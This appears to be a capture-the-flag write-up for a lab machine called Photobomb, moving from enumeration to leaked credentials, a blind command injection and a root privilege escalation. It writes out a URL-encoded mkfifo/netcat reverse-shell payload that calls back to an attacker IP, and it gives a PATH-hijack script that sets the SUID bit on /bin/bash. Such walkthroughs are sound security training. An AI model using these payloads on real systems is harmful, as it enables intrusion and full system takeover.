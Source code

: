 # Photobomb

Photobomb is a CTF that focuses on Command Injection, Relative Path Escalation, Sensitive Data Exposure and misconfigured permissions.

## Enumeration

Start off with an nmap scan which will look like this:

```vim
nmap -Pn -sV -sC -v <IP>
```

We get this information back from the scan:

```zsh
Nmap scan report for 10.10.11.182
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This just shows an ssh port and a web application are open. So we have to start exploring the web application.

We add the IP and photobomb.htb to `/etc/hosts` like this : `10.10.11.182	photobomb.htb`

Looking at the source code of the web application, we can see this line:

```html
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
```

`photobomb.js` seems interesting, lets look at the contents:

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Here we can see `pH0t0:b0Mb!` which is the username and password which will be needed to log into `/printer`

Once we log in, There is a sort of photo downloader that can let us download images in JPG and PNG and different dimensions. The HTTP request intercepted from BurpSuite looks like this:

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 89
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=png&dimensions=150x100
```

## Exploit

Ideally, we want to be able to achieve Remote Code Execution here. This is possible with command injection at the `filetype` parameter. The response doesn't get sent back to us, so it is blind RCE. Run `nc -lvnp <port>` craft the mkfifo nc reverse shell and URL encode it to send it to the parameter. Your payload should look something like this:

```http
photo=wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg&filetype=png%3brm%20%2ftmp%2ff%3bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7csh%20-i%202%3e%261%7cnc%2010.10.14.119%209000%20%3e%2ftmp%2ff&dimensions=150x100
```

Note: You have to have the payload like this, `filetype=png;<PAYLOAD>;`

You will now have a reverse shell and find the first flag in `/home/wizard/user.txt`

## Priv-Esc

Run `sudo -l`.

```vim
$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

We can see here that we can run `/opt/cleanup.sh` as root AND set our environment variable. Looking at `/opt/cleanup.sh` we see this:

```vim
$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

We see that most of the commands have an absolute path except `cd`,`find` and `chown`. Due to this misconfiguration, we can perform relative path escalation by running the following commands:

```vim
echo '#!/bin/bash' > find

echo 'chmod +s /bin/bash' >> find

echo 'bash -p' >> find

chmod 777 find
```

This will set the SUID bit of `/bin/bash` allowing for an easy root access and will let you directly enter root AND make the file executable for this exploit to work.

Lastly, run the following command:

```vim
sudo PATH=/home/wizard:$PATH /opt/cleanup.sh
```

Now, you will have a shell (It will be a blank line, but you can run commands just fine) and can find the root flag in `/root/root.txt`
